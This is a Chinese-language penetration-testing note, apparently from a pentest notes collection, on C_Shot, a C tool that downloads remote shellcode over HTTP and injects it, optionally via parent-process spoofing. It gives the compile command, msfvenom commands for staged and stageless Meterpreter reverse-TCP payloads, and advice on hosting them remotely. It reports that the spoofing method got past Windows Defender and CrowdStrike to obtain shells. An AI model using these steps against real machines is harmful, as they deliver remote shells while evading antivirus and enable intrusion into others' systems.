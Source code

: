 	From:
	https://github.com/anthemtotheego/C_Shot
	http://blog.redxorblue.com/2020/07/cshot-just-what-doctor-ordered.html
	C_Shot是一种用C语言编写的攻击性安全工具，旨在通过HTTP / HTTPS下载远程shellcode二进制文件（.bin），注入并执行shellcode。
	1.shellcode注入其自己的进程
	2.使用父进程欺骗将shellcode注入子进程
	使用C_Shot之类的工具的好处是，我们要执行的恶意代码没有存储在二进制文件中，而是从远程位置检索，读入内存然后执行。这有助于使诸如C_Shot之类的工具对AV / EDR显得相当友好，并且不会被发现。
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/773.png)

	cl / D _UNICODE / D UNICODE cshot.c
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/774.png)

	生成分阶段payload
	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -a x64 --platform windows -b "\x00" -f raw -o /root/Desktop/DefaultStaged.bin
	生成无阶段payload
	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST= IP LPORT= PORT -a x64 --platform windows -b "\x00" -f raw -o /root/Desktop/DefaultStageless.bin
	现在我们已经建立了二进制文件，现在需要一个Web服务。例如运行python -m SimpleHTTPServer 80，或者将它们托管在外部某个地方。对于本文中的所有示例，我将使用github托管shellcode。
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/775.png)

	确保windows defender打开。
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/776.png)

	注入到自己的进程中
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/777.png)

	测试分阶段的shellcode会被windows defender拦截
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/778.png)

	无阶段的shellcode不会被拦截
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/779.png)

	获得shell
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/780.png)

	测试分阶段shellcode欺骗父进程方法：
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/781.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/782.png)

	获得shell
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/783.png)

	现在测试下CrowdStrike
	注入到自己的进程，两种shellcode都被拦截
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/784.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/785.png)

	欺骗父进程
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/786.png)

	获得shell
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/787.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/788.png)

	分阶段和无阶段的shellcode在使用欺骗父进程方法时都可以绕过av。
	此工具在公共发行版中，没有进行任何形式的API隐藏，字符串混淆，内存保护技巧等工作。如果未进行任何修改，则对该工具的静态分析应该很容易发现。
